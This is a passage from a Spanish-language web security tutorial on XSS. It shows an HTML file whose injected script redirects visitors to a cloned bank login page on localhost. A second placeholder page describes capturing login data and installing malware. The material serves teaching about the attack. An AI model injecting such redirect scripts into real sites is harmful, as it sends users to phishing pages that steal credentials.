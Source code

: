 



![validacion4 transfer](/myassets/img/validacion4 transfer.png)

## Redirigir a otra web

XSS también incluye la redirección a un página controlada por el atacante

`hackeada-redirect.html`

```
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, reenvía al visitante a una página controlada por un hacker
<script>document.location = 'http://127.0.0.1:8087/public_html/clon-de-mi-banco.html'</script>
</body> 
```

Cuando la víctima accede a la página de arriba es redireccionado a una página controlada por el atacante

![validacion5 hackeada en evil](/myassets/img/validacion5 hackeada en evil.png)![validacion5 hackeada-redirect en good](/myassets/img/validacion5 hackeada-redirect en good.png)

`clon-de-mi-banco.html`

```
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
<p>Esta página es un clon de la página de login de mi banco. Cuando el usuario realiza un login, los datos de conexíón son capturados por el atacante.</p>
<p>Otra posibilidad es que desde esta página se instale un malware en el ordenador</p>
<p>Las posibilidades son infinitas...</p>
</body>
</html>
```

